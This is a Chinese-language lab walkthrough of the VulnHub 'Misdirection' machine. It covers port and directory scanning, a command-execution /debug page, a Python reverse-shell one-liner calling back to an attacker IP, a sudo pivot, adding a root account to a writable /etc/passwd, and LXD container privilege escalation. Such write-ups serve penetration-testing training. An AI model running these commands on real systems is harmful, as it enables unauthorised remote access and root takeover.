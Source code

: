 # Misdirection 1

> https://download.vulnhub.com/misdirection/Misdirection.zip

靶场IP：`192.168.32.211`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.211                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 04:28 EDT
Nmap scan report for 192.168.32.211
Host is up (0.00075s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 00:0C:29:7C:A6:14 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.33 seconds

```

访问80端口

![image-20220907163331821](../../.gitbook/assets/image-20220907163331821-1675839964820892.png)

访问8080端口

![image-20220907163349662](../../.gitbook/assets/image-20220907163349662-1675839964820891.png)

爆破目录

```
┌──(root💀kali)-[/tmp]
└─# dirb http://192.168.32.211:8080/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Sep  7 04:34:46 2022
URL_BASE: http://192.168.32.211:8080/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.211:8080/ ----
==> DIRECTORY: http://192.168.32.211:8080/css/                                                                                                                                                                                              
==> DIRECTORY: http://192.168.32.211:8080/debug/                                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.211:8080/development/                                                                                                                                                                                      
==> DIRECTORY: http://192.168.32.211:8080/help/                                                                                                                                                                                             
==> DIRECTORY: http://192.168.32.211:8080/images/                                                                                                                                                                                           
+ http://192.168.32.211:8080/index.html (CODE:200|SIZE:10918)                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.211:8080/js/                                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.211:8080/manual/                                                                                                                                                                                           
==> DIRECTORY: http://192.168.32.211:8080/scripts/                                                                                                                                                                                          
+ http://192.168.32.211:8080/server-status (CODE:403|SIZE:304)                                                                                                                                                                              
==> DIRECTORY: http://192.168.32.211:8080/shell/                                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.211:8080/wordpress/  
```

访问`/debug`目录，可以执行命令

![image-20220907163550050](../../.gitbook/assets/image-20220907163550050-1675839964820893.png)

建立反弹shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.130",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image-20220907164024147](../../.gitbook/assets/image-20220907164024147-1675839964820894.png)

查看sudo列表

```
www-data@misdirection:/tmp$ sudo -l                 
sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
www-data@misdirection:/tmp$ sudo -u brexit /bin/bash
sudo -u brexit /bin/bash

```

修改`/etc/passwd`，新增用户

```
brexit@misdirection:/tmp$ ls -al /etc/passwd
ls -al /etc/passwd
-rwxrwxr-- 1 root brexit 1617 Jun  1  2019 /etc/passwd
```

```
openssl passwd -1 -salt hack pass123
echo 'hack:$1$hack$22.CgYt2uMolqeatCk9ih/:0:0:root:/root:/bin/bash' >>/etc/passwd
```

![image-20220907164925218](../../.gitbook/assets/image-20220907164925218-1675839964820895.png)

lxd提权

```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder 
./build-alpine  
python3 -m http.server 80
```



```
lxd init
```

![image-20220907165224854](../../.gitbook/assets/image-20220907165224854-1675839964820896.png)

导入镜像

```
brexit@misdirection:/tmp$ lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
<e-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
To start your first container, try: lxc launch ubuntu:18.04
```

提权

```
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc start ignite
lxc exec ignite /bin/sh
```

![image-20230208150612010](../../.gitbook/assets/image-20230208150612010.png)
